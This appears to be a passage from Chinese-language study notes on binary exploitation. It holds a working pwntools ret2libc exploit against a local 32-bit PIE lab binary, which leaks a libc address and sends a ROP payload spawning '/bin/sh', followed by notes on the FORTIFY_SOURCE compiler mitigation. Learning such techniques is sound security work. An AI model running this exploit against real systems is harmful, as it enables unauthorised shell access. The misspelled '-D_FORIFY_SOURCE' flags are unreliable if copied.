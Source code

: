 - 编写exp，注意vunlfunc函数的会在函数起始位置和结束位置分别保存和恢复ebx寄存器值，所以在payload1需要在vuln_func函数的[ebp-4]的位置布置ebx寄存器值，从而保证vuln_func函数正常返回，payload2中可以设置ebx，也可以不设置ebx，不影响执行system('/bin/sh'),但出于规范考虑最好还是加上
```python
from pwn import*

io=process('./_pie_fpie_print_main.out')
elf=ELF('./_pie_fpie_print_main.out')
libc=ELF('/lib32/libc.so.6')

main_addr=int(io.recvline(),16)
base_addr=main_addr-elf.sym['main']
vuln_func=base_addr+elf.sym['vuln_func']
plt_write=base_addr+elf.plt['write']
got_write=base_addr+elf.got['write']

ebx=base_addr+0x2000

payload1="A"*132+p32(ebx)+"AAAA"+p32(plt_write)+p32(vuln_func)+p32(1)+p32(got_write)+p32(4)

io.send(payload1)
write_addr=u32(io.recv())

system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))

payload2="A"*132+p32(ebx)+"AAAA"+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
#this payload2 is work to
#payload2="A"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)

io.send(payload2)
io.interactive()
```
# FORTIFY_SOURCE
- 一种检查机制，针对导致缓冲区溢出及格式化字符串漏洞的高危函数（字符串操作函数）在编译过程中进行检查，确定是否存在漏洞风险，或将危险函数替换为安全函数，且不会对程序执行的性能产生大的影响，同时该机制会在程序运行过程中进行安全检查，并在不安全的情况下抛出异常
- 该机制目前所支持的函数有memcpy、memmove、memset、strcpy、stpcpy、strncpy、strcat、strncat、sprintf、vsprintf、snprintf、vsnprintf、gets等，这些安全函数位于glibc源码的debug目录下。
- Ubuntu16.04（GCC-5.4.0）上，该机制默认是关闭的。当指定了优化等级（-O）为1以上，相当于默认开启FORTIFY_SOURCE的等级为1，如果我们希望检查等级为2，则需要手动指定参数。
  - -D_FORIFY_SOURCE=0时，关闭FORTIFY_SURCE机制
  - -D_FORIFY_SOURCE=1时，开启缓冲区溢出攻击检查； 
  - -D_FORIFY_SOURCE=2时，开启缓冲区溢出以及格式化字符串攻击检查。
- 该机制并不仅仅能够应用于glibc，只需要将相应的头文件string.h、stdio.h等打上补丁，也能够获得该机制的保护。
- 开启FORTIFY_SOURCE机制：使用-D_FORTIFY_SOURCE=1或2编译选项指定检查等级
  - ![](pic/2021-06-11-14-37-05.png)
- 脚本checksec.sh根据函数名是否带有“_chk”后缀来判断是否开启FORTIFY_SOURCE。
  - ![](pic/2021-06-11-13-28-48.png)
## FORTIFY_SOURCE的实现
- 4.5.2节
